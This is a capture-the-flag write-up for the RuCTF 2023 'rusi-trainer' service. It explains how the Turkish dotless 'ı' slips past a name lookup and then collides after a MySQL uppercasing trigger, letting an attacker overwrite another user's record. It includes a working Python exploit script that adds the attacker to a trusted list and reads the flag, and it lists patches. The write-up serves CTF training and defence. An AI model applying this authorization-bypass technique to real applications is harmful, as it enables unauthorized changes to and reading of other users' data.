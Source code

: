 # RuCTF 2023 | rusi-trainer

## Description

This service stores the fighting techniques of the ancient Rus. (Udar)

- Service use name as primary key in database MySQL.
- The same request to the database was used both to create and update actions.
- Before db execute it try to get object from db using name from input as is.
- If it does not exist, a database query is executed
- If it exists and the user is the object's creator, a query is made to the database, causing updates to occur.
- In every insert into the database, the key (name) is converted to uppercase using a trigger.

## Vulnerability

Vulnerability in service is unexpected collision in primary keys on insert.

You need to choose a name so that when you try to retrieve the object by name, it will not be in the database. 

But at the same time, when the insert query executed the trigger convert name to upper case, a conflict occurs, and we updated an already existing record in the database.

So you need a symbol that is converted into another symbol by the uppercase function.

That symbol is: `ı` - turkish letter

```javascript
'ı' == 'i' // false
```
```javascript
'ı'.toUpperCase() == 'i'.toUpperCase() // true
```

```javascript
'ı'.toUpperCase().toLowerCase() == 'i'.toUpperCase().toLowerCase() // true
```



## Exploitation

The checker generates too long flag_id, so in every name of Udar (this is flag id) you can find `i` symbol. 
So you need to replace it with `ı` and make `PUT` request to update `trustedRusi` (add your hacker user to the trusted list).
This will make it possible to read the flag using a regular get request.

[Sploit](/sploits/rusi-trainer/rusi-trainer.sploit.py)
```python3
hacker_username = f'hac3r{uuid.uuid4()}'
hacker_password = f'hah-{uuid.uuid4()}'
requests.post(api_url + 'auth/register/', json={
    'username': hacker_username,
    'password': hacker_password
})
hacker_token = requests.post(api_url + 'auth/login/', json={
    'username': hacker_username,
    'password': hacker_password
}).json()['accessToken']
hacker_id = requests.get(f'{api_url}users/{urllib.parse.quote_plus(hacker_username)}/', headers={
    'x-access-token': hacker_token
}).json()['id']
name = PUBLIC_FLAG_ID.upper().lower()
if 'i' in name:
    name = name.replace('i', 'ı')
else:
    raise RuntimeError('No "i" symbol in FLAG_ID')
requests.put(f'{api_url}udar/', headers={'x-access-token': hacker_token}, json={
    'name': base69.encodeString(name),
    'trustedRusi': [hacker_id],
    'phonk': 'ULTRA HARD 23',
    'map': 1,
    'description': 'oldone'
})
result = requests.get(f'{api_url}udar/{PUBLIC_FLAG_ID.upper()}/',
                      headers={'x-access-token': hacker_token}).json()
print(result['phonk']) # There flag
```

## Patch

There many ways to fix it. Use any of that

- Go to upper case name from input before do get request
- Use two different requests to database for insert and update
- Replace MySQL to MariaDB (in MySQL `'ı' = 'i' // False'` but in MariaDB `'ı' = 'i' // True'` )



